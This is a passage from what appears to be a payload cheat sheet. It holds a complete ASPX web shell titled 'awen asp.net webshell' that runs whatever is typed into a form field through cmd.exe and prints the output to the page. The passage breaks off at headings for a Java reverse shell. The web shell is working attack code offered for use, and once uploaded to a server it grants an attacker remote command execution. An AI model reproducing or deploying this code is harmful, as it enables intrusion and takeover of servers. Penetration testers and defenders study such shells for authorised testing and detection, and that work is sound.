 ASPX

```
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>
```

## Java

### Reverse shell
